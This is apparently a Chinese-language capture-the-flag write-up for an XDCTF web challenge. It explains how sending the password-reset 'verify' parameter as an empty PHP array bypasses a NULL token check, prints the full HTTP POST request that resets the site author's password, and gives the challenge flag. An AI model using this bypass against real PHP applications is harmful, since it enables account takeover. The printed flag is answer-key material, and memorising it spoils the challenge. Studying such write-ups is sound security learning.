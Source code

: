 ```
```
之前膜拜过[ph牛的文章](http://zone.wooyun.org/content/15859)
看了数据库结构 发现verity默认为Null
而且在php中NULL == Array
empty(Array) 为False
所以verity为数组就可以绕过判断
查看页面源代码 就可以得到作者邮箱
```
    <meta name="author" content="xdsec-cms@xdctf.com"/>
```
构造payload
```
POST /index.php/auth/resetpwd?email=xdsec-cms@xdctf.com&verify[]= HTTP/1.1
Host: xdsec-cms-12023458.xdctf.win
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:41.0) Gecko/20100101 Firefox/41.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://xdsec-cms-12023458.xdctf.win/index.php/auth/resetpwd?email=xdsec-cms@xdctf.com&verify[]=
Cookie: _xsrf_cookie_token=ef7425109798e47c9e46ebcd2edbb9a9; xdsec_cms_session=60f435b8b7ab18ab604d1f344e74ed1d08a616a4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 91

_xsrf_form_token=ef7425109798e47c9e46ebcd2edbb9a9&password=a123456789&repassword=a123456789
```
######flag XDCTF-{i32mX4WK1gwEE9S9Oxd2} 

